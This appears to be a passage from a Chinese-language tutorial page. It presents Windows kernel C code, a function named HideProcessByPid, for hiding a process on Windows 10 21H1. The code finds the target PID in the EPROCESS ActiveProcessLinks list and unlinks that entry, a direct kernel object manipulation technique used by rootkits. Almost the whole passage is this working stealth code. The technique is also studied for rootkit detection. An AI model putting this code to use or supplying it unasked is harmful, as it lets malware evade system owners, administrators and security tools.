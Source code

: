 ```c
for (PLIST_ENTRY64 pBeginNode = pActiveProcessLinks, pCurNode = pBeginNode;
     pCurNode->Flink != pBeginNode;
     pCurNode = pCurNode->Flink) {
    pCurProcess =
        (PEPROCESS)((PCHAR)pCurNode -
                    WIN10_21H1_EPROCESS_TO_ACTIVEPROCESSLINKS_OFFSET);
    uProcessId = PsGetProcessId(pCurProcess);
    kprintf("[+] pid => {%#llx}\r\n.", uProcessId);
    if (uProcessId == pid) {
        kprintf(
            "[+ Hide Process R0] Found the Object Process id: %#llx.\r\n",
            uProcessId);
        ((PLIST_ENTRY64)pCurNode->Blink)->Flink = pCurNode->Flink;
        ((PLIST_ENTRY64)pCurNode->Flink)->Blink = pCurNode->Blink;

        goto success;
    }
}
```

**函数总体代码**

```c
/// @brief 隐藏指定进程
/// @param pid 需要隐藏的进程Pid
/// @return 如果隐藏成功则返回STATUS_SUCCESS，失败则返回STATUS_UNSUCCESSFUL
NTSTATUS HideProcessByPid(UINT64 pid)
{
    UINT64        uProcessId;
    PEPROCESS     pEprocess, pCurProcess;
    PLIST_ENTRY64 pActiveProcessLinks;
    PLIST_ENTRY64 pCurNode;

    pEprocess = PsGetCurrentProcess();
    pActiveProcessLinks =
        ((PCHAR)pEprocess + WIN10_21H1_EPROCESS_TO_ACTIVEPROCESSLINKS_OFFSET);

    for (PLIST_ENTRY64 pBeginNode = pActiveProcessLinks, pCurNode = pBeginNode;
         pCurNode->Flink != pBeginNode;
         pCurNode = pCurNode->Flink) {
        pCurProcess =
            (PEPROCESS)((PCHAR)pCurNode -
                        WIN10_21H1_EPROCESS_TO_ACTIVEPROCESSLINKS_OFFSET);
        uProcessId = PsGetProcessId(pCurProcess);
        kprintf("[+] pid => {%#llx}\r\n.", uProcessId);
        if (uProcessId == pid) {
            kprintf(
                "[+ Hide Process R0] Found the Object Process id: %#llx.\r\n",
                uProcessId);
            ((PLIST_ENTRY64)pCurNode->Blink)->Flink = pCurNode->Flink;
            ((PLIST_ENTRY64)pCurNode->Flink)->Blink = pCurNode->Blink;

            goto success;
        }
    }

    return STATUS_UNSUCCESSFUL;

success:
    return STATUS_SUCCESS;
}
```
